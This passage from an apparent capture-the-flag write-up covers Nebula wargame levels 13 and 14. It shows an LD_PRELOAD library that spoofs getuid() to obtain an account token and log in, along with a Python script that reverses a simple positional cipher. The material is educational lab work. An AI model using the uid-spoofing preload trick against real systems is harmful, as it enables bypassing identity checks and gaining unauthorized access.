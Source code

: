 Ok, so let's write our verison of:

{% highlight C %}
#include <sys/types.h>

uid_t getuid(void) { return 1000; }
{% endhighlight %}

and compile it as a shared library which we then preload (see `man ld.so` for more info on this). We need to
copy the `flag13` binary to our local directory because it needs to be run as the same user level as the 
library we are trying to preload.

{% highlight console %}
level13@nebula:/tmp$ gcc -shared -fPIC fake.c -o fetgetuid.so
level13@nebula:/tmp$ cp ~flag13/flag13 .
level13@nebula:/tmp$ export LD_PRELOAD=/tmp/fetgetuid.so
level13@nebula:/tmp$ ./flag13
your token is b705702b-76a8-42b0-8844-3adabbe5ac58
level13@nebula:/tmp$ ssh flag13@localhost
flag13@localhost's password: b705702b-76a8-42b0-8844-3adabbe5ac58
flag13@nebula:~$ getflag
You have successfully executed getflag on a target account
{% endhighlight %}

## Level 14 ##

 > This program resides in /home/flag14/flag14 . It encrypts input and writes it to standard output. An encrypted token file is also in that home directory, decrypt it :) 

The contents of `token` were encrypted using the `flag14` binary in `~flag14`. If you run it you can see how it works. Let's enter something and see if we can work out how it works. I created a file with the contents `abcdefghijklmno` in `/tmp/test`

{% highlight console %}
 level14@nebula:/home/flag14$ cat /tmp/test | ./flag14 -e
acegikmoqsuwy{}level14@nebula:/home/flag14$
{% endhighlight %}

So luckily it's fairly straightforward, it offsets each letter by the value of its position in the string. A quick Python script can reverse the process.

{% highlight python %}
 import sys

def decrypt(input):
  out = ''
  for i, c in enumerate(input):
    dec = ord(c) - i
    out += chr(dec)

  print out


if __name__ == '__main__':
  input = sys.argv[1]
  print input
  decrypt(input)
{% endhighlight %}
